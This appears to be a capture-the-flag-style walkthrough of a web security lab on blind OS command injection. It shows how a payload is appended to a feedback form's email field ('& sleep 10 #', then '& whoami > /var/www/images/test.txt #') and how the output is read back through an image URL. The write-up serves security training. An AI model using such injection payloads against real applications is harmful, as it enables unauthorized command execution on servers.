


# Blind OS command injection with output redirection [PRACTITIONER]

```text
This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
To solve the lab, execute the whoami command and retrieve the output.
```

Solution -

Submitting the feedback form , the request looks like this : 

```html
csrf=uLgBiugAmuLNUEy7maHfcAnLUQHLXgJP&name=deadbeef&email=deadbeef40gmail & sleep 10 #&subject=hello&message=welcome
```

As we know, the email parameter is vulnerable , we give the payload  ``& whoami > /var/www/images/op.txt #`` (URL-encode before sending)

```html
csrf=uLgBiugAmuLNUEy7maHfcAnLUQHLXgJP&name=deadbeef&email=deadbeef40gmail & whoami > /var/www/images/test.txt #&subject=hello&message=welcome
```

We get a successful response




Now, after storing the result of whoami command in /var/www/images directory, we can check the content .

To find where the filename parameter is , we can check the HTTP history tab , there we can see the http GET request being made to retreive all image files in home page



Transfer the request to Repeater tab. We modify the filename = op.txt & in the response we get the username !

```html
GET /image?filename=test.txt HTTP/2
```

After Geting The Username The Lab Should Slove Itself 

#### Visit The Next Page For The Next Level :)

